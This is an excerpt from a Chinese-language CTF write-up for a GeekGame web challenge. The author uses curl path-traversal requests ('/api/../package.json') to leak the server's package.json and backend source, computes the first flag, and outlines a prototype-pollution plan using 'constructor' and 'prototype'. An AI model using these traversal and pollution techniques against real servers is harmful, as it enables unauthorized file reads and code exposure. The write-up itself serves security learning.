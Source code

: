 ```
$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/a.json
File does not exists!%

$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../a.json
File does not exists!%

$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../../a.json
<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.18.0 (Ubuntu)</center>
</body>
</html>
```

看起来只能读到上一层目录，不能更上层了。

第一个 flag 叫做「获得代码」，那么读什么 json 文件可以获得代码呢？我去随便找了个 node.js 写的项目看了看结构，应该可以读 `package.json` 和 `package-lock.json`。

```
$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../package.json
{"name":"demo-server","version":"1.0.0","description":"","scripts":{"start":"node --max-http-header-size=32768 start.js"},"author":"You","license":"WTFPL","dependencies":{"jsonaas-backend":"https://geekgame.pku.edu.cn/static/super-secret-jsonaas-backend-1.0.1.tgz"}}%

$ curl --path-as-is https://prob11-vfrbjh2z.geekgame.pku.edu.cn/api/../package-lock.json
File too big!%
```

源代码下载到了，第一个 flag 相关逻辑如下：

```javascript
if(FLAG0!==`flag{${0.1+0.2}}`)
    return;
```

在 node 里面运行一下得到 flag：

```
$ node
Welcome to Node.js v17.0.1.
Type ".help" for more information.
> `flag{${0.1+0.2}}`
'flag{0.30000000000000004}'
```

要想拿到第二个 flag，必须让源代码里面的 `req.session.activated` 这个变量为真，但是让这个变量为真就要输入这个 flag，这是自相矛盾的。

我打 CTF 一般不做 web 题，所以不熟悉各种常见的攻击方法。我最开始觉得这怎么可能，后来查了一些 node.js 常见的漏洞，了解到了原型链污染攻击，结合这道题的 json 处理逻辑，觉得就是这个思路了。

最开始我看到了源代码里面 session 的 `secret`，我以为可以像 flask 那样签名任意的 session，但是读了文档和源代码之后发现这个 `secret` 泄露了并不会怎么样，session 数据都在服务器内存里，并且 session 的 id 是随机的。退一步说，就算可以伪造其他人的身份，这种每个人独立的题目环境中也没有人已经是 `activated`。

在 json 的处理逻辑中，`in_path` 和 `out_path` 中的每一部分都不能包括 `_`，所以原型链污染的话我们只能用不包含下划线的名字，就只有 `constructor` 和 `prototype` 可以用了。
